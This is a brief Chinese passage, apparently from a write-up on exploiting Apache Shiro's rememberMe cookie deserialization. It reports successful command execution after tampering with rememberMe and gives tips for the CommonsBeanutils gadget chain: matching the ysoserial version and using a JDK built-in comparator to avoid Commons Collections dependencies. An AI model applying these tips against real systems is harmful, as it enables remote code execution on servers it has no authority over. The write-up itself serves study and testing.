

- 随后修改rememberMe，成功执行命令



#### CB链

CB的EXP已给出。只需注意两个问题

1. CB版本是否相符，yso中针对的是1.9.2
2. comparator的加载问题，最好直接传入jdk自带的公有的能序列化的comparator，这样就不用管CC的版本了
